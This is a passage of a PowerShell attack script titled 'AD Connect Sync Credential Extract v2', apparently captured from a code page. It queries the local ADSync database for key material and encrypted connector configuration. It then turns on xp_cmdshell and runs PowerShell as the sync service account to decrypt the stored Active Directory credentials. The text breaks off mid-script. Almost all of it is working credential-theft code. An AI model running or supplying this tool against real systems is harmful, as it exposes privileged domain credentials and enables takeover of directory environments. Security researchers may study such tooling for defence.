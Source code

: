 ```

Write-Host "AD Connect Sync Credential Extract v2 (@_xpn_)"
Write-Host "`t[ Updated to support new cryptokey storage method ]`n"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"

try {
    $client.Open()
} catch {
    Write-Host "[!] Could not connect to localdb..."
    return
}

Write-Host "[*] Querying ADSync localdb (mms_server_configuration)"

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
if ($reader.Read() -ne $true) {
    Write-Host "[!] Error querying mms_server_configuration"
    return
}

$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

Write-Host "[*] Querying ADSync localdb (mms_management_agent)"

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
if ($reader.Read() -ne $true) {
    Write-Host "[!] Error querying mms_management_agent"
    return
}

$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

Write-Host "[*] Using xp_cmdshell to run some Powershell as the service user"

$cmd = $client.CreateCommand()
$cmd.CommandText = "EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'powershell.exe -c `"add-type -path ''C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'';`$km = New-Object -TypeName Microsoft.DirectoryServices.                 MetadirectoryServices.Cryptography.KeyManager;`$km.LoadKeySet([guid]''$entropy'', [guid]''$instance_id'', $key_id);`$key = `$null;`$km.GetActiveCredentialKey([ref]`$key);`$key2 = `$null;`$km.GetKey(1, [ref]`$key2);`$decrypted = `$null;`$key2.DecryptBase64ToString(''$crypted'', [ref]`$decrypted);Write-Host        `$decrypted`"'"
$reader = $cmd.ExecuteReader()

$decrypted = [string]::Empty

while ($reader.Read() -eq $true -and $reader.IsDBNull(0) -eq $false) {
    $decrypted += $reader.GetString(0)
}

if ($decrypted -eq [string]::Empty) {
```